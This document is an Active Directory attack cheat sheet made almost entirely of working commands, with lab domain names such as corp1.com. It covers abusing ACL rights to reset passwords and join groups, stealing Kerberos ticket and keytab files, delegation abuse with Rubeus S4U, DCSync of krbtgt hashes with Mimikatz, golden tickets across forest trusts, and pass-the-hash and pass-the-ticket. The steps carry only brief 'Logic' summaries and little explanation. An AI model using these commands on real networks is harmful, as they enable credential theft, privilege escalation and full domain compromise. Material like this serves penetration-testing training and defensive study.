 # Active Directory Cheat Sheet

## AD Object Security Permission
### Check Generic All
**Logic**: Use GenericAll permission → modify related password to gain access
```powershell
# Check Generic All
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Exploitation 
net user [UserName] [Password] /domain
net group [UserGroup] [UserName] /add /domain
```

### Check DACL
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check WriteDACL
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

#Change Permission to Generic ALL
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All

# Recheck
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Kerberos Operation (Linux)
### General Command
```bash
#Checking if Kerberos exists
env | grep KRB5CCNAME

#Initiate of Keberos TGT
kinit

#Checking existing TGT
klist

#Checking SPNs
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName

#Initiate ST
kvno MSSQLSvc/DC01.corp1.com:1433
```

### Path 1: Stealing Ticket File 
**Logic**: Steal ticket file (with sudo right) → Change Ticket Owner → Request TGT and ST
```bash
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown offsec:offsec /tmp/krb5cc_minenow
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
kvno MSSQLSvc/DC01.corp1.com:1433
```

**Impacket Version with proxychain**
```bash
#In Victim
ssh offsec@linuxvictim -D 9050

#Example of operation
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

### Path 2: Stealing KeyTab File
**Logic**: Steal Ticket File (Incorrect permission configured) → Kinit
```bash
#Kinit using keytab file
kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab

#SMB For testin
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
```
## Kerberos Operation (Windows)
### Unconstrainted Delegation
**Logic**: Use WriteDACL to modify the access → GenericAll permission → modify related password to gain access
```powershell
# Check Unconstrainted Delegation
Get-DomainComputer -Unconstrained

# Export Ticket
sekurlsa::tickets /export

# Import again to elevate permission
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

# DC Sync
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

### Constrainted Delegation
**Logic**: Check TrustedtoAuth firled for the user (**msds-allowedtodelegateto**) → Generate TGT → S4U Authentication → Modify authentication for alt service 
```powershell
# Check Trusted to Auth
Get-DomainUser -TrustedToAuth

#Generate TGT
.\Rubeus.exe hash /password:lab
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

#Perform authentication/ alt service authentication
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt
```

### Resource Constrainted Constrainted Delegation
**Logic**: GenericAll on Computer Object → Check Machine Account Quota → Creat Machine Account and put into msDS-AllowedToActOnBehalfOfOtherIdentity → Create S4U 
```powershell
# Check GenericAll
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# Check Machine Account Quota
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

# Add Machine Account
. .\powermad.ps1
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
Get-DomainComputer -Identity myComputer

# Check SID and Convert to Binary Formmat
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

#Assign Binary format SID into msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
.\Rubeus.exe hash /password:h4x
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

## Within Forest Operation
**Logic**: Check Forest Trust first (Direct_Inbound & Direct_Outbound) inside **Flags**
**Key**: TrustAttributes: WITHIN_FOREST (Inside Same Forest), FOREST_TRANSITIVE (Outside Forest)
### Enumeration
```powershell
Get-DomainTrust -API
Get-DomainTrust
Get-DomainUser -Domain corp1.com
```
**Logic**: SYSTEM at Primary Domain (Prod.corp1.com) + Corp1$ NTLM Hash inside Prod.corp1.com → SYSTEM at Secondary Domain (Corp1.com)
```powershell
#Mimikatz Get Domain Hash
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

Get-DomainSID -Domain prod.corp1.com 
Get-DomainSid -Domain corp1.com 

kerberos::golden /user:h4x /domain:<Domain Name> /sid:<Domain SID> /krbtgt:<NTLM of KRBTGT> /sids:<External Forest Enterprise Admin SID> /ptt
```

## Extra-Forest Operation
### Enumeration
**Attack Path 1:** Enumeration of External Trusted Group → Compromise the account → Gain Extenral Forest 
**Attack Path 2:** Gain KRBTGT Hash → SIDS 
**ATtack Path 3:** Gain LinkedSQL in both domains
```powershell
#PowerView 
Get-DomainTrustMapping

#Check groups in a trusted forest or domain that contains non-native members
#Compromise this account can easily gain access to the forest
#Check MemberName: SID field
Get-DomainForeignGroupMember -Domain corp2.com 
convertfrom-sid <SID>

#Check LinkedSQL
setspn -T prod -Q MSSQLSvc/*
```

### Exploitation
```powershell
lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
Get-DomainSID -domain corp1.com
Get-DomainSID -domain corp2.com

#Check Forest Group SID must be larger than 1000, it must be > 1000 (Custom Group in External Forest)
Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
kerberos::golden /user:h4x /domain:<Domain> /sid:<Domain SID> /krbtgt:<Domain NTLM Hash of KRBTGT> /sids:<External Forest Enterprise Admin SID Custom Group>  /ptt
```


### Mimikatz/Rubeus PTT
```powershell
#Mimikatz
#Pass the Hash
sekurlsa::pth /domain:infinity.com /ntlm:e929e69f7c290222be87968263a9282e /user:ted /run:cmd.exe

# Mimikatz Pass the Ticket
kerberos::golden /domain:infinity.com /ntlm:e929e69f7c290222be87968263a9282e /user:ted /target:dc03 /ptt
misc::cmd

# Mimikatz DC SYNC
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt

# Rubeus Pass the Ticket
.\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /ptt
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```

